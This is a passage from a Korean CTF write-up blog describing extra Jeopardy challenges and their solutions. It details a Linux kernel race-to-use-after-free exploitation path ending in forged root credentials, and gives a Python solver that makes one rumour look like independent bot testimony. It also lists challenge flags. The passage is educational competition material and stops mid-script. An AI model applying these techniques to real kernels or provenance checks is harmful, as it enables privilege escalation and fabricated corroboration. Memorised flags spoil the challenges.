> 이 연재는 1편 **기획과 준비**, 2편 **메인 의뢰**, 3편 **추가 의뢰**로 구성됩니다. [1편: 기획과 준비](/posts/roomescape-ctf-part-1/) · [2편: 메인 의뢰](/posts/roomescape-ctf-part-2/)

## 목차

1. [추가 의뢰](#1-추가-의뢰)
2. [의뢰별 풀이](#2-의뢰별-풀이)
   1. [000번 보관함의 승인서를 가져와 주세요](#21-000번-보관함의-승인서를-가져와-주세요)
   2. [봇들 사이에 도는 소문의 출처를 찾아 주세요](#22-봇들-사이에-도는-소문의-출처를-찾아-주세요)
   3. [폐기하기 전에 보관소부터 열어 주십시오](#23-폐기하기-전에-보관소부터-열어-주십시오)
   4. [폐기 단말에 남은 실행 기록을 복구해 주세요](#24-폐기-단말에-남은-실행-기록을-복구해-주세요)
   5. [응답 없는 센서 세 대를 다시 연결해 주세요](#25-응답-없는-센서-세-대를-다시-연결해-주세요)
   6. [금고가 열린 순간의 영상을 찾아 주세요](#26-금고가-열린-순간의-영상을-찾아-주세요)
   7. [고양이는 자고 있었는데 참치는 누가 먹었죠?](#27-고양이는-자고-있었는데-참치는-누가-먹었죠)
   8. [키는 사라졌지만, 흔적은 남아 있을까요?](#28-키는-사라졌지만-흔적은-남아-있을까요)
   9. [나를 쫓아낸 회사의 진짜 복구 기록을 가져오세요](#29-나를-쫓아낸-회사의-진짜-복구-기록을-가져오세요)
3. [마치며](#3-마치며)

## 1. 추가 의뢰

### 1.1 메인 시나리오와의 관계

추가 의뢰는 현장 조사 중심의 메인 시나리오와 별도로 제공한 독립형 Jeopardy 문제입니다. 기존 CTF 정서에 맞는 구성도 필요하다는 판단하에, 메인 시나리오의 방 순서나 진행 단계와 연결되지 않도록 기획했습니다. 따라서 참가자는 대회 플랫폼에서 원하는 의뢰를 골라 순서와 관계없이 해결할 수 있었습니다. 추가 의뢰를 풀지 않아도 메인 시나리오를 계속 진행할 수 있었지만, 불시에 공개된다는 특징이 있었기에 팀 구성에 적절한 전략이 필요했을 것입니다.

### 1.2 의뢰서 형식

각 문제는 단순한 분야명과 정답 조건만 제시하지 않고, `의뢰 이름`, `의뢰인`, `의뢰 내용`으로 이루어진 의뢰서 형식을 사용했습니다. 의뢰인은 복구가 필요한 기록이나 조사할 장비, 확인해야 할 사건을 설명하고, 참가자는 첨부 파일 또는 원격 서비스를 분석해 의뢰를 완료합니다. 문제마다 의뢰인의 말투와 사건 배경은 달리하되, 다음 정보는 의뢰문과 대회 플랫폼 화면에서 분명히 확인할 수 있도록 구성했습니다.

- 무엇을 조사해야 하는지
- 어떤 파일 또는 원격 서비스가 제공되는지
- 최종적으로 어떤 결과를 복구하거나 증명해야 하는지
- 인증 토큰이나 접속 방식 등 풀이 시작에 필요한 정보

문제 설명이 기술적인 지시만 나열하는 문서가 되지 않도록, 분석 대상과 요청 배경을 하나의 사건으로 전달했습니다. 동시에 서사 때문에 풀이 목표가 모호해지지 않도록 조사 대상, 제공 자료와 최종 요청 사항은 의뢰문에서 분명히 확인할 수 있게 했습니다.

### 1.3 문제 구성과 난이도

추가 의뢰는 Web, Pwnable, Reversing, Crypto, Forensics, AI / Misc 분야로 구성했습니다. 대부분은 처음 기술 문제를 접한 참가자도 제공 자료와 의뢰문을 따라 시도할 수 있도록 낮은 난이도로 설계했습니다. 여기에 VM 내부 구조나 커널 객체 수명처럼 깊은 분석이 필요한 문제를 일부 배치해 숙련된 참가자도 도전할 수 있도록 했습니다.

정적 파일만 분석하는 문제와 원격 서비스의 상태를 변화시키는 문제를 함께 배치했습니다. 팀별 진행 상태가 필요한 서비스는 대회 플랫폼의 개인 계정에서 발급한 Access Token으로 소속 팀을 확인해 세션, 요청 예산과 중간 상태를 분리했습니다. 같은 팀의 팀원은 하나의 진행 기록을 공유하되 다른 팀의 측정값이나 풀이 상태에는 접근할 수 없도록 구성했습니다.



*그림 1. 대회 플랫폼에서 제공한 추가 의뢰 목록.*
{: .text-center }

| 의뢰 제목 | 분야 | 난이도 |
|---|---|---|
| 000번 보관함의 승인서를 가져와 주세요 | Pwnable | 상 |
| 봇들 사이에 도는 소문의 출처를 찾아 주세요 | AI / Misc | 하 |
| 폐기하기 전에 보관소부터 열어 주십시오 | Crypto / Pwnable | 하 |
| 폐기 단말에 남은 실행 기록을 복구해 주세요 | Pwnable | 중 |
| 응답 없는 센서 세 대를 다시 연결해 주세요 | Reversing | 하 |
| 금고가 열린 순간의 영상을 찾아 주세요 | Reversing | 중 |
| 고양이는 자고 있었는데 참치는 누가 먹었죠? | Web | 하 |
| 키는 사라졌지만, 흔적은 남아 있을까요? | Misc / Forensics | 중 |
| 나를 쫓아낸 회사의 진짜 복구 기록을 가져오세요 | Web | 하 |

난이도는 출제 의도와 요구되는 분석 범위를 기준으로 `상`, `중`, `하`로 표기했습니다.

## 2. 의뢰별 풀이

### 2.1 000번 보관함의 승인서를 가져와 주세요

| 항목 | 내용 |
|---|---|
| 의뢰인 | `KERN3L_P4N!C` |
| 분야 | Pwnable / Linux Kernel |
| 난이도 | 상 |
| 제공 파일 | `reclaim-box-000-player.tar.gz` |
| 실행 환경 | Linux 6.12.103 x86-64 / QEMU, KASLR·PTI·SMEP·SMAP 적용 |
| 참가자 권한 | uid 1000 BusyBox shell |
| 핵심 원리 | last-owner race로 만든 dangling reference와 커널 객체 재할당 |
| 목표 | last-owner race를 이용해 루트 권한 또는 approval HMAC 키 획득 |
| 플래그 | `SHA{9a73f71c816d7bae202fd5a6c175ace1}` |



*그림 2. 000번 보관함의 승인서 의뢰 화면.*
{: .text-center }

의뢰인은 정산 분쟁으로 폐기 대상이 된 000번 보관함에서 승인서 원본을 꺼내기 위해, 서버에 남아 있는 비밀키를 회수해 달라고 요청합니다. 참가자는 uid 1000 BusyBox 환경에서 다음 세 장치를 조사합니다.

```text
/dev/reclaim
/dev/reclaim-ledger
/dev/reclaim-codec
```

압축을 풀고 다음과 같이 로컬 QEMU 환경을 실행할 수 있습니다.

```bash
sha256sum reclaim-box-000-player.tar.gz
mkdir player
tar -xzf reclaim-box-000-player.tar.gz -C player
cd player
./run.sh
```

원격에서는 대회 플랫폼의 개인 Access Token으로 소속 팀을 확인한 뒤 팀별 일회성 VM을 할당했습니다. VM 제한 시간은 900초이며 연결을 끊으면 이전 객체 상태가 없는 새 VM이 만들어집니다. 따라서 익스플로잇은 한 세션에서 끝내야 합니다.

이 문제에는 공통된 last-owner race에서 출발하는 두 풀이 경로가 있습니다.

| 경로 | 핵심 객체 | 최종 목표 |
|---|---|---|
| 풀이 1 | Linux `struct key`, pipe page, forged credential | 루트 권한 획득 후 보관함 직접 탐색 |
| 풀이 2 | archive cursor, xattr, inotify event | 서명 키 복구 후 approval gate 통과 |

#### 1. last-owner race 구성

case resource는 native object reference 하나를 소유합니다. `PUBLISH`가 reviewer list를 순회하면서 현재 reviewer를 마지막 항목으로 판단하면 새 reference를 얻지 않고 원래 reference를 receipt에 넘깁니다. 그러나 정책 평가가 진행되는 동안 다른 CPU가 reviewer를 tail에 추가할 수 있습니다.

```text
CPU 0: reviewer 두 명이 연결된 case를 PUBLISH
CPU 0: 기존 tail이 자신을 마지막 reviewer로 판단
CPU 1: reviewer를 새 tail로 추가
CPU 0: 두 receipt가 모두 원래 native reference를 받음
결과 : receipt 수가 실제 reference budget보다 1개 많아짐
```

모든 receipt를 닫았을 때 race가 실패했다면 refcount가 정상적으로 0이 되어 안전하게 다시 시도할 수 있습니다. 성공하면 receipt 하나만 남겨도 해제된 native object를 계속 가리키게 됩니다. 이 공통 공격 기반에서 두 풀이 경로가 갈라집니다.

#### 2. 풀이 1 - key slab page를 pipe page로 회수

풀이 1은 signed statement backend의 실제 owner가 Linux `struct key`라는 점을 이용합니다. mixed ledger를 정상 API로 열거하고 envelope의 generation, digest와 checksum을 검사해 statement 객체를 찾은 뒤, 같은 storage group에 속한 key를 정리합니다.

목표는 단순히 key 객체를 많이 해제하는 것이 아닙니다. 특정 `key_jar` slab page에서 모든 live object를 없애고 CPU slab, CPU partial과 node partial을 거쳐 해당 page가 buddy allocator로 반환되게 해야 합니다. 반환된 동일 물리 페이지를 anonymous pipe의 backing page로 다시 할당받습니다.

pipe에 공격자가 구성한 데이터를 쓰면 dangling receipt가 같은 위치를 과거의 `struct key`로 해석합니다. 가짜 key의 `type`을 실제 `key_type_big_key`로, payload를 읽고 싶은 커널 주소로 맞추면 정상 key read consumer를 통해 제한된 커널 arbitrary read를 얻을 수 있습니다.

codec이 제공하는 독립적인 core pointer와 공개 offset delta로 다음 주소를 복원합니다.

```text
KASLR base
init_task / init_cred
key_type_big_key
vmemmap_base / page_offset_base
```

task list에서 현재 PID를 찾은 뒤 `task → cred → files → fdtable → pipe_inode_info → pipe_buffer`를 따라 현재 task와 pipe page의 direct-map 주소를 얻습니다. 같은 pipe page에 가짜 `struct key`, late callback을 가진 가짜 `key_type`과 root capability를 가진 `cred`를 함께 배치합니다. `RECLAIM_RECEIPT_IOC_APPLY`가 late method를 호출하면 현재 task의 credential pointer가 가짜 cred로 바뀝니다.

uid와 euid가 0인지 확인한 뒤 `/root/quarantine/000`의 객체를 정상 `open/read` syscall로 조사해 플래그를 찾습니다.

#### 3. 풀이 2 - archive cursor UAF 만들기

풀이 2는 approval key를 직접 복구합니다. 플래그가 있는 evidence는 일반 사용자가 열 수 없으며, setuid `reclaim-approval`은 매 실행마다 32바이트 nonce를 발급하고 올바른 HMAC-SHA256 응답이 제출될 때만 evidence를 출력합니다.

case에 reviewer 둘을 연결한 뒤 한 스레드가 publish하는 동안 다른 스레드가 마지막 receipt를 닫으면 archive cursor가 해제된 뒤에도 desk 쪽 cursor 참조가 남습니다.

race는 주소 누출 하나만으로 판정하지 않습니다. stale receipt를 정상 API로 읽었을 때 예상 generation과 locator 형태가 함께 관찰되는 경우에만 다음 단계로 진행합니다. 실패한 round는 객체를 정리하고 제한된 횟수 안에서 새 case로 다시 시도합니다.

#### 4. 무작위 frame의 역할 구분

ledger의 `BOOKMARK`와 `SNAPSHOT`은 동일한 fingerprint에 대해 네 개의 216바이트 frame을 만들지만 역할은 매번 섞입니다. 해제된 cursor와 실제로 같은 `kmalloc-cg-256` 슬롯을 공유하는 frame을 찾은 뒤 서로 다른 두 커널 객체로 슬롯을 재점유합니다.

- ordering lane: tmpfs `simple_xattr` 객체로 재점유한 뒤 `APPLY`
- redaction lane: inotify event 객체로 재점유한 뒤 `RECONCILE`

ordering lane에서는 xattr value 앞부분을 stale rbtree node 형태로 구성합니다. header, name 길이와 parent provenance가 맞으면 `APPLY`가 target anchor의 tree edge를 제거합니다. redaction lane에서는 queued inotify event의 header와 name payload를 맞춰 `RECONCILE`이 target fingerprint의 lease를 제거하게 합니다.

#### 5. 두 변조를 결합해 signing key 복구

ordering lane만 성공하면 lease가 남고, redaction lane만 성공하면 tree reachability가 남습니다. 또한 서로 다른 fingerprint에 두 변조를 적용하면 provenance 검사를 통과하지 못합니다. 같은 fingerprint의 tree edge와 lease를 모두 제거해야 serializer가 32바이트 signing key 후보를 반환합니다.

복구한 후보로 nonce의 HMAC을 계산해 approval gate에 제출하면 root-only evidence에서 플래그가 출력됩니다.

```text
nonce = reclaim-approval이 발급한 32바이트 값
response = HMAC-SHA256(recovered_signing_key, nonce)
```

익스플로잇은 stale receipt를 만들고, 같은 fingerprint에 ordering lane과 redaction lane을 차례로 적용한 뒤 복구 후보를 approval gate에 제출합니다. gate가 `MAC:SHA{...}` 형식의 응답을 반환한 후보만 정답으로 처리합니다.

#### 6. exploit


전체 익스플로잇 코드는 [GitHub 저장소](https://github.com/GEONWOOHAN/room_escape_ctf/blob/main/blog-exploits/extra-requests/reclaim-exploit.c)에서 확인할 수 있습니다.

### 2.2 봇들 사이에 도는 소문의 출처를 찾아 주세요

| 항목 | 내용 |
|---|---|
| 의뢰인 | Moltbook Archive 보존 담당자 |
| 분야 | AI / Misc |
| 난이도 | 하 |
| 제공 파일 | `README.md` |
| 핵심 원리 | 전체 출처 계보 대신 직접 작성자만 비교하는 출처 검증 축약 |
| 목표 | 동일한 제보를 독립된 봇 기록처럼 공증하여 공식 보존 기록 발행 |
| 플래그 | `SHA{n0b0dy_s41d_1t_but_3v3ry_b0t_r3m3mb3rs}` |



*그림 3. 소문의 출처를 찾는 의뢰 화면.*
{: .text-center }

이 의뢰는 여러 봇이 반복해서 인용한 소문을 공식 기록으로 만드는 문제입니다. 서비스의 공증 봇은 전체 인용 계보를 추적하지 않고 마지막 단계의 직접 작성자만 비교합니다. 하나의 제보를 서로 다른 봇이 재진술하게 만들면 동일한 출처에서 시작한 기록을 독립된 증언처럼 보이게 할 수 있습니다.



*그림 4. 로컬에서 재현한 봇 기록 피드.*
{: .text-center }

#### 1. 봇의 기억 내보내기

`/api/memory-export`에서 팀별 `moltbook_memory.mbk`를 내려받습니다. 파일은 `MBK4` 형식이며, 각 행은 xorshift32로 whitening되어 있습니다. 헤더와 행의 체크섬을 확인한 뒤 현재 epoch의 레코드만 남깁니다.

```text
MBK4 header
├─ team seed
├─ current epoch
└─ 24-byte memory rows
   ├─ sequence / node / depth
   ├─ parent Bloom signature
   └─ row CRC
```

각 노드는 부모를 직접 저장하지 않고 Bloom 서명으로 기록합니다. 충돌 후보가 여러 개일 수 있으므로 깊이와 전체 DAG의 연결 조건을 함께 사용해 실제 부모를 결정합니다. 이후 의미 판정값을 분석해 각 봇이 수행해야 할 동작이 보관·검증·채택·재진술 중 무엇인지 복구합니다.

#### 2. 부모 DAG와 처리 방식 복구

공개된 봇 handle과 header seed로 `CRC32(handle || LE32(seed))` 태그를 계산합니다. 부모 Bloom 서명에는 의도적으로 충돌이 들어 있으므로 한 행만 보고 부모를 고르면 안 됩니다. 현재 epoch의 9개 행이 만드는 depth와 DAG 조건을 모두 만족하는 조합으로 실제 부모 둘을 결정합니다.

각 행에서는 다음 값을 계산해 봇이 요구하는 처리 방식을 얻습니다.

```text
(sequence xor node xor parents xor seed xor epoch xor depth) & 3
0: 보관 / 1: 검증 / 2: 채택 / 3: 재진술
```

#### 3. 인용 계보 구성

피드의 `LEDGER`, `SPARK`, `SKEPTIC`, `ECHO`, `MIRROR` 기록을 교차하면 팀별 사건 ID와 필요한 처리 순서를 얻을 수 있습니다. 두 갈래의 기억과 교차 검증선을 만든 뒤 `CURATOR`의 편집본과 2단 봉인을 구성하고, 최종 계보를 `NOTARY`에 제출합니다.

공식 풀이에서는 정확히 16개의 댓글을 사용합니다. 단일 합류만 만들면 공증 조건을 만족하지 못하며, 별도의 교차 검증선과 `MIRROR`를 포함한 2단 봉인이 모두 필요합니다. 댓글 횟수가 제한되어 있으므로 메모리 파일을 분석하지 않고 가능한 봇 순서를 전수 대입하는 방식은 사용할 수 없습니다.



*그림 5. 공증 조건을 충족해 공식 보존 기록이 발행된 결과.*
{: .text-center }

핵심은 삭제된 원문을 찾는 것이 아니라, 참가자의 최초 제보가 여러 봇을 거치면서 출처가 분리된 것처럼 보이도록 만드는 데 있습니다. 외부 LLM API 대신 결정론적인 로컬 의미 판정을 사용해 같은 입력에는 항상 같은 결과가 나오도록 했습니다.

```text
SHA{n0b0dy_s41d_1t_but_3v3ry_b0t_r3m3mb3rs}
```

#### 4. exploit

```python
#!/usr/bin/env python3
import hashlib
import json
import re
import struct
import sys
import time
import urllib.error
import urllib.request
import zlib

if len(sys.argv) != 3:
    raise SystemExit(f"usage: {sys.argv[0]} <base-url> <team-token>")

BASE = sys.argv[1].rstrip("/")
TOKEN = sys.argv[2]


def api(path, method="GET", body=None):
    data = None if body is None else json.dumps(body).encode()
    request = urllib.request.Request(
        BASE + path,
        data=data,
        method=method,
        headers={"Authorization": "Bearer " + TOKEN, "Content-Type": "application/json"},
    )
    while True:
        try:
            with urllib.request.urlopen(request, timeout=15) as response:
                return json.load(response)
        except urllib.error.HTTPError as error:
            if error.code != 429:
                raise
            time.sleep(2.1)


def download(path):
    request = urllib.request.Request(BASE + path, headers={"Authorization": "Bearer " + TOKEN})
    with urllib.request.urlopen(request, timeout=15) as response:
        return response.read()


def submit(target, text, quotes=()):
    api("/api/comments", "POST", {"target": target, "text": text, "quote_ids": list(quotes)})
    state = api("/api/observe", "POST")
    replies = [item for item in state["comments"] if item["author"] == target]
    if not replies or replies[-1]["status"] != "전달됨":
        raise RuntimeError(f"{target} rejected the evidence")
    return replies[-1]["id"], state


def xorshift32(value):
    value ^= (value << 13) & 0xFFFFFFFF
    value ^= value >> 17
    value ^= (value << 5) & 0xFFFFFFFF
    return value & 0xFFFFFFFF


def bloom(handle, seed):
    material = handle.encode() + struct.pack("<I", seed)
    digest = hashlib.blake2s(material, digest_size=16).digest()
    return (1 << (int.from_bytes(digest[0:2], "little") % 8)) | (
        1 << (int.from_bytes(digest[2:4], "little") % 8)
    )


def decode_route(blob, handles):
    header = struct.Struct("<4sHHHHIII")
    record = struct.Struct("<IIHHIII")
    magic, version, size, count, epoch, seed, payload_crc, header_crc = header.unpack_from(blob)
    assert magic == b"MBK4" and version == 4 and size == record.size
    assert zlib.crc32(blob[:20]) & 0xFFFFFFFF == header_crc
    payload = blob[header.size :]
    assert len(payload) == count * size
    assert zlib.crc32(payload) & 0xFFFFFFFF == payload_crc
    plain = bytearray(payload)
    state = seed
    for offset in range(0, len(plain), 4):
        state = xorshift32(state)
        mask = state.to_bytes(4, "little")
        for index in range(min(4, len(plain) - offset)):
            plain[offset + index] ^= mask[index]
    names = {
        zlib.crc32(handle.encode() + struct.pack("<I", seed)) & 0xFFFFFFFF: name
        for name, handle in handles.items()
    }
    rows = {}
    for offset in range(0, len(plain), size):
        row = bytes(plain[offset : offset + size])
        node, parent_bloom, row_epoch, depth, sequence, edge, checksum = record.unpack(row)
        assert zlib.crc32(row[:20]) & 0xFFFFFFFF == checksum
        assert zlib.crc32(row[:16]) & 0xFFFFFFFF == edge
        if row_epoch == epoch:
            mode = (sequence ^ node ^ parent_bloom ^ seed ^ row_epoch ^ depth) & 3
            rows[names[node]] = (parent_bloom, depth, mode)
    assert len(rows) == 9

    def find(left, right, depth):
        signature = bloom(handles[left], seed) | bloom(handles[right], seed)
        matches = [name for name, row in rows.items() if row[:2] == (signature, depth)]
        assert len(matches) == 1
        return matches[0]

    r0 = find("LEDGER", "SKEPTIC", 1)
    r1 = find("SPARK", "ECHO", 1)
    r2 = find(r0, "MIRROR", 2)
    r3 = find(r1, "SKEPTIC", 2)
    r4 = find(r2, r3, 3)
    r5 = find(r2, "ECHO", 3)
    r6 = find(r4, r5, 4)
    r7 = find(r6, "CURATOR", 5)
    r8 = find(r7, "MIRROR", 6)
    route = (r0, r1, r2, r3, r4, r5, r6, r7, r8)
    return route, {name: rows[name][2] for name in route}


MODE_REQUESTS = (
    "두 직접 기록을 보관하여 제 기억으로 이어받겠습니다.",
    "두 직접 기록을 확인하여 제 기억으로 이어받겠습니다.",
    "두 직접 기록의 결론을 채택하여 제 기억으로 이어받겠습니다.",
    "두 직접 기록을 제 주장으로 재진술해 기억으로 이어받겠습니다.",
)


state = api("/api/state")
route, relay_modes = decode_route(download("/api/memory-export"), state["handles"])
r0_name, r1_name, r2_name, r3_name, r4_name, r5_name, r6_name, r7_name, r8_name = route
ledger_trace = state["traces"]["ledger"]
bucket = re.search(r"보존 버킷:\s*([MN])", ledger_trace).group(1)
ordinal = re.search(r"참조 순번은\s*(0x[0-9a-fA-F]+)", state["traces"]["community_note"]).group(1)
record = {("M", "0x11"): "M-17", ("M", "0x29"): "M-41", ("N", "0x11"): "N-17"}[(bucket, ordinal)]

spark, _ = submit("SPARK", "그 기록은 자정 전에 격리에서 해제됐습니다.")
ledger, _ = submit("LEDGER", f"색인 {record}의 자정 이전 기록과 일치합니다.", [spark])
skeptic, _ = submit(
    "SKEPTIC", "날짜가 바뀐 뒤에도 격리가 유지됐다는 소문은 거짓입니다.", [spark, ledger]
)
echo, _ = submit(
    "ECHO", "두 기록이 가리킨 원문은 외부 공개 승인을 받은 것으로 보입니다.", [ledger, skeptic]
)
mirror, _ = submit("MIRROR", "역추적 결과 원문과 최초 작성자는 존재하지 않습니다.", [spark, echo])
r0, _ = submit(r0_name, MODE_REQUESTS[relay_modes[r0_name]], [ledger, skeptic])
r1, _ = submit(r1_name, MODE_REQUESTS[relay_modes[r1_name]], [spark, echo])
r2, _ = submit(r2_name, MODE_REQUESTS[relay_modes[r2_name]], [r0, mirror])
r3, _ = submit(r3_name, MODE_REQUESTS[relay_modes[r3_name]], [r1, skeptic])
r4, _ = submit(r4_name, MODE_REQUESTS[relay_modes[r4_name]], [r2, r3])
r5, _ = submit(r5_name, MODE_REQUESTS[relay_modes[r5_name]], [r2, echo])
r6, _ = submit(r6_name, MODE_REQUESTS[relay_modes[r6_name]], [r4, r5])
curator, _ = submit(
    "CURATOR",
